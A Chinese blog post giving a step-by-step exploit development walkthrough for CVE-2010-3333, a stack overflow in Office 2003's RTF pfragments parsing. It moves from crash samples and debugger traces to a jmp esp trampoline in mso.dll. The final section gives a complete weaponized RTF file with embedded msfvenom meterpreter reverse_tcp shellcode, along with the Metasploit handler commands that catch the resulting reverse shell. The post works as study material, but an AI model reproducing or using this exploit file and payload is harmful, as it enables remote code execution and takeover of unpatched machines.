










# cve-2010-3333 分析简笔 - m4sterx - 博客园

> 原文：[`www.cnblogs.com/M4ster/p/cve-2010-3333_debug.html`](https://www.cnblogs.com/M4ster/p/cve-2010-3333_debug.html)

    昨天分析了半拉，感觉整个过程很条理；但是今天再接着昨天的思路往下调试的时候，不知该在哪下断点了，翻阅了昨天的随手的记录才有了些印象，但是思路还是一团。看来写篇随笔还是很有必要的。故作此文。

```
简介
Microsoft Office 是微软发布的非常流行的办公软件套件。 
        基于 Mac 平台的 Microsoft Office XP SP3，Office 2003 SP3，Office 2007 SP2，Office 2010，Office 2004 以及 2008 版本，基于 Mac 2011 平台的 Office，以及基于 MAC 平台的 Open XML 文件格式转换器中存在基于栈的缓冲区溢出漏洞。远程攻击者可以借助特制的 RTF 数据执行任意代码。该漏洞又名"RTF 栈缓冲区溢出漏洞"。

```

```
受影响软据
cpe:/a:microsoft:office:xp:sp3	Microsoft Office XP Service Pack 3
cpe:/a:microsoft:office:2010	Microsoft Office 2010
cpe:/a:microsoft:open_xml_file_format_converter:::mac	Microsoft Open XML File Format Converter for Mac
cpe:/a:microsoft:office:2011::mac	Microsoft Office 2011 Mac
cpe:/a:microsoft:office:2007:sp2	Microsoft Office 2007 Service Pack 2
cpe:/a:microsoft:office:2008::mac	Microsoft Office 2008 Mac
cpe:/a:microsoft:office:2004::mac	Microsoft Office 2004 Mac
cpe:/a:microsoft:office:2003:sp3	Microsoft Office 2003 Service Pack 3

```

　　调试环境： xp sp3 english 

　　调试工具： immdbg 　　

　　调试对象：

```
Office Professional Enterprise Edition 2003 (English) 详细信息
文件名
en_office_2003_pro.iso
SHA1
0D90F58105DCBC74A8972802340B3226679E7119
文件大小
400.55MB
发布时间
2003-09-03
ed2k://|file|en_office_2003_pro.iso|420005888|2828bdb2400cf75af224c3e4a919bd9b|/

```

　　参考： 《漏洞战争》 以及 http://www.52pojie.cn/thread-290299-1-1.html

　　0x01 简单的样本

　　简单的样本 0.doc

```
{\rtf1{}{\shp{\*\shpinst{\sp{\sv 1;1;4141414141414141414141414141}{\sn pfragments}}}}}

```

　　1.启动 winword.exe ，启动 immdbg，附加 winword.exe 进程；

　　2\. 将 0.doc 拖入 winword 窗口

　　3\. immdbg 抓到执行异常、如下


　　4\. 堆栈如下

　　

可以看到我们的 41414141 ... 已经被复制到栈上了，如果增加就会覆盖到返回地址，通过观察堆栈我们很容易看到距离返回地址没多少距离。

　　0x01 简单的样本 1，找出问题根源

　　从上面我们可以推测出：是数据 copy 时造成了栈溢出，那么我们增加恶意数据，一定会撑爆栈，造成非法写入。就能定位到是谁在乱写了。

　　1\. 利用 mona 的 pc 生成大量的数据，这里我生成 1000 字节先试试（没有安装 mona 的同学，可以去 github 搜索下载，放入 immdbg 安装路径下的 pycommands 目录就可以了），在下面的命令输入

处键入 !mona pc 1000  如下图



这样就生成了 1000 字节的数据，可以到 Immdbg 安装目录下的 pattern.txt 查看详细内容

复制 ascii:下的字符串


写入到样本 1.doc 中如下



再次调试打开，参考上面的 0x00 的 1.2.3.4.... 

immdbg 抓到了异常写入错误


罪魁祸首在这里



将以上代码复制出来，保存为 txt，作为记录

```
30E9EB78   56               PUSH ESI
30E9EB79   8BF1             MOV ESI,ECX
30E9EB7B   0FAF7424 14      IMUL ESI,DWORD PTR SS:[ESP+14]
30E9EB80   0370 10          ADD ESI,DWORD PTR DS:[EAX+10]
30E9EB83   8BC1             MOV EAX,ECX
30E9EB85   C1E9 02          SHR ECX,2
**30E9EB88   F3:A5            REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]**
30E9EB8A   8BC8             MOV ECX,EAX
30E9EB8C   83E1 03          AND ECX,3
30E9EB8F   F3:A4            REP MOVS BYTE PTR ES:[EDI],BYTE PTR DS:[ESI]
30E9EB91   5E               POP ESI
30E9EB92   5F               POP EDI
30E9EB93   C2 0C00          RETN 0C
30E9EB96   56               PUSH ESI
30E9EB97   57               PUSH EDI

```

　　标黑部分为造成异常的原因，位于 mso.dll 中，所以下次，我们在这里下断点。着重跟踪下

    0x02 手动构造样本 02 ，跟踪溢出过程

    样本 2.doc 如下

```
{\rtf1{}{\shp{\*\shpinst{\sp{\sv 1;1;4142434445464748495051525354555657585960616263646566676869707172737475}{\sn pfragments}}}}}

```

　　再次附加调试打开样本。参考 0x00 

　　当 winword 运行起来后，我们要下断点 bp 30E9EB88 ,我们首先看下 mso.dll ，是否已经正常加载，使用 mona 命令 


可以到到 mso 已经加载，所以可以直接下断点了

下好断点后，打开文件 2.doc，immdbg 停在在了

```
30E9EB88   F3:A5            REP MOVS DWORD PTR ES:[EDI],DWORD PTR DS:[ESI]

```

　　正在复制数据，从 esi 到 edi 复制，我们看下 edi 是哪里

```
EAX 00004645
ECX 00001191
EDX 00000000
EBX 05000000
ESP 0012A280
EBP 0012A2B8
ESI 05A2000C ASCII "GHIPQRSTUVWXY`abcdefghipqrstu"
EDI 0012A2A8
EIP 30E9EB88 mso.30E9EB88
C 0  ES 0023 32bit 0(FFFFFFFF)
P 0  CS 001B 32bit 0(FFFFFFFF)
A 0  SS 0023 32bit 0(FFFFFFFF)
Z 0  DS 0023 32bit 0(FFFFFFFF)
S 0  FS 003B 32bit 7FFDF000(FFF)
T 0  GS 0000 NULL
D 0
O 0  LastErr ERROR_SUCCESS (00000000)
EFL 00000202 (NO,NB,NE,A,NS,PO,GE,G)
ST0 empty
ST1 empty
ST2 empty
ST3 empty
ST4 empty
ST5 empty
ST6 empty
ST7 empty
               3 2 1 0      E S P U O Z D I
FST 0000  Cond 0 0 0 0  Err 0 0 0 0 0 0 0 0  (GT)
FCW 037F  Prec NEAR,64  Mask    1 1 1 1 1 1

```

　　可以知道 edi 指向栈中，在栈窗口 ctrl+g 打开地址输入对话框，键入 edi,回车


栈如下

```
0012A2A8   FFFF0000  ..ÿÿ
0012A2AC   05000000  ...
0012A2B0   00000000  ....
0012A2B4   0000FFFF  ÿÿ..
0012A2B8  /0012A2E8  è¢.
0012A2BC  |30F4CDBD  ½Íô0  RETURN to mso.30F4CDBD from mso.30F4CC5D

```

　　观察如上栈的情况，下面不远就是返回地址

再看看复制数据的来源，是否是我们写入的数据

在数据窗口键入 ctrl+g ,键入 esi 回车


正式我们写入的数据

通过以上我们可以知道，我们的数据在复制到栈上时，会覆盖返回地址，下面我们看下复制完成后是否覆盖了返回地址

F8 一下，复制完成，我们在去看看 

```
0012A2A8 处的栈情况
```

```
0012A2A8 50494847 GHIP
0012A2AC 54535251 QRST
0012A2B0 58575655 UVWX
0012A2B4 62616059 Y`ab
0012A2B8 66656463 cdef
0012A2BC 70696867 ghip
0012A2C0 74737271 qrst
0012A2C4 00000075 u...
0012A2C8 00000000 ....
0012A2CC 00000000 ....
0012A2D0 00000000 ....
0012A2D4 00000000 ....
0012A2D8 00000000 ....
0012A2DC 00000000 ....
0012A2E0 00000000 ....
0012A2E4 00000000 ....
0012A2E8 00000000 ....

```

　　对比下

```
复制前的 返回地址
0012A2BC  |30F4CDBD  ½Íô0  RETURN to mso.30F4CDBD from mso.30F4CC5D
复制数据后的返回地址

0012A2BC 70696867 ghip
已经被我们的数据覆盖，下面当函数返回时就会造成 eip 跑飞，被控制

```

　　下面我们继续 f8 ,一步一步 



来到如上图位置时，堆栈情况如下


 接下来，f7 跟入，如下


 eip 已经被 70696867,控制

以上我们已经定位到可控 eip 的位置

　　0x03 找个跳板

通过观察栈情况



此时 esp 指向 0012A2D4 ,我们可以利用 jmp esp 来跳入 shellcode 中，

我们可以将 shellcode 向下布置到 0012A2D4 

　　找个稳定的跳板，jmp esp ，这里我们还是利用 mona ，为了稳定我们不适用系统的跳板，这里我们使用 mso.dll 的跳板

命令 !mona jmp -r esp -m mso.dll -o  // 这里解释下 jmp 找跳板的命令，-r esp 寄存器指定为 esp ;-m 指定 dll 名称，-o 忽略系统 dll

稍等片刻，点击工具栏中的 l ，显示日志窗口。



这里选择一个条本就行了，我们选择 0x30cd10a7 , 下面我们替换下

```
{\rtf1{}{\shp{\*\shpinst{\sp{\sv 1;1;4142434445464748495051525354555657585960616263646566a710cd30}{\sn pfragments}}}}}

```

验证下跳板，将以上内容保存为 3.doc

附加 winword ,下断点，30f4cd55 ,这里返回后就 EIP 被控了，就会去 30cd10a7 


来到断点处，可以看到现在的栈顶就是我们的跳板，f7 跟踪下


f7 继续


f7 继续



可以看到 eip 被控制到栈中 12a2D4 去了，此时栈中布局



通过以上观察，我们可以多放些滑块，在后面布置 shellcode 就行了

0x04 构造 exploit ,触发利用，验证

通过以上调试和观察，我们已经摸清楚了，可以得出我们 exp 布局，

12a2d4 - 12a2bc = 24 ，

在跳板后布置 20 个 00，后面就可以跟我们的 shellcode 了，这里我使用 msf 生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.250.1 LPORT=4444 -f hex > 111.payload

```

直接提取 shellcode 为 hex 字符类型，存放在 1111.payload 中如下

```
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8fa01680200115c89e66a1056576899a57461ffd585c0740aff4e0875ece83f0000006a006a0456576802d9c85fffd583f8007ee98b366a406800100000566a006858a453e5ffd593536a005653576802d9c85fffd583f8007ec301c329c675e9c3bbf0b5a2566a0053ffd5

```

注释：我的 kali 使用 ip 250.1 ，xp 调试机器为 250.2 ，互 ping 都是通的。

最后得到样本文件 04.doc

```
{\rtf1{}{\shp{\*\shpinst{\sp{\sv 1;1;4142434445464748495051525354555657585960616263646566ae61d23000000000000000000000000000000000000000009090909090909090909090909090909090909090fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd5505050504050405068ea0fdfe0ffd5976a0568c0a8fa01680200115c89e66a1056576899a57461ffd585c0740aff4e0875ece83f0000006a006a0456576802d9c85fffd583f8007ee98b366a406800100000566a006858a453e5ffd593536a005653576802d9c85fffd583f8007ec301c329c675e9c3bbf0b5a2566a0053ffd5}{\sn pfragments}}}}}

```

msf 监听命令如下

```
 use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.250.1
exploit

```

　　winword 打开样本 04 ，msf 得到反弹 shell

